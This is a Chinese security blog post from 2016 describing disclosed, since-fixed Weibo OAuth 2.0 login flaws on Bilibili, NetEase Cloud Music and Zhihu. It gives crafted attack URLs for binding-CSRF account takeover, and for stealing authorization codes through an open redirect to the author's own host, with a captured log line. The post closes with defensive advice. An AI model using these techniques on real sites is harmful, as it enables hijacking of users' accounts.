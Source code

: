 title: "“脆弱”的微博OAuth 2.0"
date: 2016-02-16 22:19:40
tags: [安全, OAuth 2.0]
---

## 前言

这篇文章将介绍WEB网站在接入第三方账号系统：新浪微博进行用户身份验证登录时会遇到的几个问题。前段时间我在乌云上报了几个与这方面相关的漏洞，后面的内容会有实际的例子进行说明，不过存在的问题都已经得到修复。

## 新浪微博的OAuth 2.0

接下来以开发者的角度来描述一下登录的过程。

1. 用户通过浏览器访问Web网站并通过希望通过新浪微博进行登录，我们需要将其引导到以下的页面：`https://api.weibo.com/oauth2/authorize?client_id=YOUR_CLIENT_ID&response_type=code&redirect_uri=YOUR_REGISTERED_REDIRECT_URI`
2. 用户填写微博的账号及密码，同意授权后新浪微博会将页面跳转到`YOUR_REGISTERED_REDIRECT_URI/?code=CODE`
3. 后台通过这个接口就可以拿到用户的授权码，使用这个code，我们就可以在后台通过新浪提供的API：`https://api.weibo.com/oauth2/access_token?client_id=YOUR_CLIENT_ID&client_secret=YOUR_CLIENT_SECRET&grant_type=authorization_code&redirect_uri=YOUR_REGISTERED_REDIRECT_URI&code=CODE`，获取访问用户资源的Access Token，从而使用用户的身份完成一些授权的操作，如获取微博的账号信息。

而在一些网站应用中，也允许用户的账号去绑定新浪微博的账号，然后就可以通过新浪微博进行登录，例如知乎，其绑定账号的过程也是类似上面的流程。

相关链接：[Web网站的授权](http://open.weibo.com/wiki/%E6%8E%88%E6%9D%83%E6%9C%BA%E5%88%B6%E8%AF%B4%E6%98%8E)

## 各种姿势

### 0x00 绑定接口的CSRF
案例：[点我的链接我就可能会进入你的B站账号](http://wooyun.org/bugs/wooyun-2016-0169000)

首先得感谢一下[@呆子不开口](http://wooyun.org/whitehats/%E5%91%86%E5%AD%90%E4%B8%8D%E5%BC%80%E5%8F%A3)，这个姿势是从他那里学习来的。用一句话总结一下：发起绑定第三方账号的接口存在CSRF问题，导致用户点击攻击者构造的页面后，攻击者的微博就绑定到了用户的账号下，从而造成攻击者能以受害用户的身份登录网站。接下来我将以B站之前存在的漏洞来说明构造攻击页面的过程。

1. 在攻击页面中，用户点击页后，我们要先在用户的浏览器上登录指定的微博账号。注意该账号要先授权给bilibili，因为新浪微博的授权有如下特点，如果当前登陆的微博曾经授权过bilibili，那么就会自动跳过前面的授权步骤直接完成绑定。登录微博的过程我用的方式比较简单粗暴，使用的是`http://weibo.cn`的登录接口。注：当时这个接口不需要验证码，现已加上，所以也就不存在登录CSRF的问题了。
2. 登录微博完成后，我们利用js在页面中插入一个`img`标签，指定src为`https://account.bilibili.com/login?sns=weibo`，加载完成后，我们的微博账号就绑定到了用户的账号中。

### 0x01 没有完整验证绑定流程

案例：[点我的链接我就可能会进入你的网易云音乐](http://wooyun.org/bugs/wooyun-2016-0170272)

网易云音乐的绑定微博账号流程如下：
1. GET `http://music.163.com/api/sns/authorize?callbackType=Binding&clientType=web2&forcelogin=true&snsType=2&csrf_token=d0728eed66ae5189b66579d943559dc4`
2. 302调整到：`https://api.weibo.com/oauth2/authorize?client_id=301575942&response_type=code&redirect_uri=http://music.163.com/back/weibo&scope=friendships_groups_read,statuses_to_me_read,follow_app_official_microblog&state=pYkkCeJkYU&forcelogin=true&csrf_token=d0728eed66ae5189b66579d943559dc4`
3. 用户授权完成后，跳转到`http://music.163.com/back/weibo?state=pYkkCeJkYU&code=0e9e160fbbec0955f6e04a7c79b2e5fb`

可以看到，发起绑定的接口用了`csrf_token`参数来防止CSRF攻击，因此不存在上面提到的问题。然而百密一疏，我们可以跳过第一步，直接引导用户到第二步，如果第三步`/back/weibo`这个接口没有验证state参数同时也没有验证用户是否主动发起过绑定，那么我们就可以用先登录指定微博，然后将该微博绑定到用户账号的方式，获取用户登录网易云音乐的权限。state参数就是用来防止这种情况的，然而云音乐的开发者并没有好好用上，引用一下新浪的文档：
>用于保持请求和回调的状态，在回调时，会在Query Parameter中回传该参数。开发者可以用这个参数验证请求有效性，也可以记录用户请求授权页前的位置。这个参数可用于防止跨站请求伪造（CSRF）攻击

具体的过程如下：
1. 用户登录了网易云音乐，点击了攻击者的链接
2. 在攻击者的页面中，主要过程是利用新浪微博的登录接口先登录攻击者的微博账号，注：攻击者的微博账号需要先授权给网易云音乐并关注，然后前端偷偷跳转到下面的地址，就可以将攻击者的微博账号绑定到用户的账号中`https://api.weibo.com/oauth2/authorize?client_id=301575942&response_type=code&redirect_uri=http://music.163.com/back/weibo&scope=friendships_groups_read,statuses_to_me_read,follow_app_official_microblog`
3. 攻击者利用自己的微博账号即可登录受害者的网易云音乐的账号

### 0x02 用户授权code被盗

先说一下效果，用户在微博点击我构造好的URL之后，我就可以骗到该用户的授权code，利用这个code我们就可以以用户的身份登录其授权过的某些网站。至于要怎么做到，后面我用知乎的例子来说明吧，目前也修复了。

案例链接：[微博上你点我链接我就上你绑定过的知乎账号](http://wooyun.org/bugs/wooyun-2016-0174018)和[微博上你点我链接我就上你绑定过的网易通行证（涉及考拉海购/BOBO/同城约会等）](http://wooyun.org/bugs/wooyun-2016-0175030) 

在知乎上，页面中的URL链接都是使用了一个接口进行跳转的，例如我在知乎上不要脸地回答了一个问题的[答案](https://www.zhihu.com/question/37062603/answer/71139922)中 ，里面的URL都是类似这样子的
```
https://link.zhihu.com/?target=http%3A//www.wooyun.org/whitehats/zhchbin
```
这个URL能够跳转到任意的网址，且不需要用户确认！我们可以利用这个问题来做什么的？接下来就看我一步步构造一个恶意的URL。上面的接口是HTTPS的，而我的网站只支持HTTP，为了从`referrer`偷到用户的code信息，所以我先试了一下http是否可以，发现是没问题的。课外知识：[关于https -> http 跳转的referrer](http://serverfault.com/questions/520244/referer-is-passed-from-https-to-http-in-some-cases-how)

NEXT：知乎登录页面中的微博登录是跳转到如下的URL：

```
https://api.weibo.com/oauth2/authorize?
scope=email&
state=e9887b485320b0cab80b0d029e92759f&
redirect_uri=https%3A%2F%2Fwww.zhihu.com%2Foauth%2Fcallback%2Flogin%2Fsina&
response_type=code&
client_id=3063806388
```

由之前的基础知识我们可以知道，要想拿到code，就得利用`redirect_uri`参数跳转到我们自己的网站。但是这里有个域名的限制，如果你把redirect_uri直接改成其他网站，微博是会报`(error:redirect_uri_mismatch)`错误的，所以我们只能使用知乎下的域名。经测试：在接入微博登录的过程中，微博开放平台会要求验证域名是否属于我们。如果填入的域名是xxx.com，则该域名和其子域名下的任何接口都能与`client_id`匹配而不会报错。而测试后我猜测知乎用的域名是`zhihu.com`，所以`link.zhihu.com`也能与client_id匹配。所以利用上面的接口，构造出以下的URL：

```
https://api.weibo.com/oauth2/authorize?
scope=email&
state=e9887b485320b0cab80b0d029e92759f&
redirect_uri=http%3A%2F%2Flink.zhihu.com%2F%3Ftarget%3Dhttp%3A%2F%2Fa.zhchbin.xyz%2Fauth%3F&
response_type=code&
client_id=3063806388
```
一个在授权过知乎的微博用户点击上面的URL后，新浪微博就会加上code参数并自动跳转到redirect_uri参数指定的URL。微博这样便利的默认行为，在这里帮了大忙。如果伪装的好，用户点了链接之后会根本就不知道发生了什么事情。

```
http://link.zhihu.com/?target=http://a.zhchbin.xyz/auth?&state=e9887b485320b0cab80b0d029e92759f&code=776b93bbf6b2474067f593d743f36380
```
NEXT：上面的URL页面会使用JS调整到target参数中，这个时候我们查看一下auth接口的referrer，就可以找到用户的code，例如：
```
[31/Jan/2016:15:28:31 +0800] "GET /auth? HTTP/1.1" 404 402 "http://link.zhihu.com/?target=http://a.zhchbin.xyz/auth?&state=e9887b485320b0cab80b0d029e92759f&code=ad3d1b20385f891a36e498cb470146e5" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.82 Safari/537.36" "2.94"
```

拿到这个code参数之后，在我们自己的浏览器中打开下面的链接，就可以以受害用户的身份来登录知乎了

```
https://www.zhihu.com/oauth/callback/login/sina?
state=17324074ce785e6296061cf1381f6f8b&
code=ad3d1b20385f891a36e498cb470146e5
```

其中state参数的值是知乎首页的cookie中_xsrf对应的值。目前知乎已经修复这个问题，具体的修复方式就没有认真研究，我觉得最好的方式是在URL跳转前加一个安全提示，让用户确认的。

## 总结

可以发现OAuth2.0整个过程中都有不少容易被忽略的点，这里总结一下我认为的要写好第三方通信证登录及账号绑定需要注意的事情：

1. 发起绑定的接口不能存在CSRF问题。鬼知道用户浏览器上登录的微博账号就一定是用户的呢，你说对不。
2. 用好OAuth2.0的State参数，用的好，就不会有上面提到的网易云音乐类似问题，还是要防止CSRF问题的。RFC中对这个参数是推荐的哦。
3. 我觉得OAuth2.0的认证服务器在给开发者接入的时候应该要求使用完整的redirect_uri参数，而不是域名。而对于开发者，你无法改变微博的登记方式，只能让自己的站点不要存在任意URL调整的问题，比如能在跳转到其他站点前提示一下用户就提示一下。注：网易通信证那个问题，也是一个奇葩的任意URL跳转。

PS：我书读得少，脑子不好使，以上内容如有错误，请和谐点指出。

最后还是要放几个链接：

* http://drops.wooyun.org/web/12695
* http://weibo.com/p/1001603921767675649900?from=page_100505_profile&wvr=6&mod=wenzhangmod
* https://github.com/knownsec/KCon/blob/master/KCon%20V3/%E5%88%A9%E7%94%A8OAuth%E5%8A%AB%E6%8C%81%E7%94%A8%E6%88%B7%E8%BA%AB%E4%BB%BD.ppt
* http://drops.wooyun.org/papers/598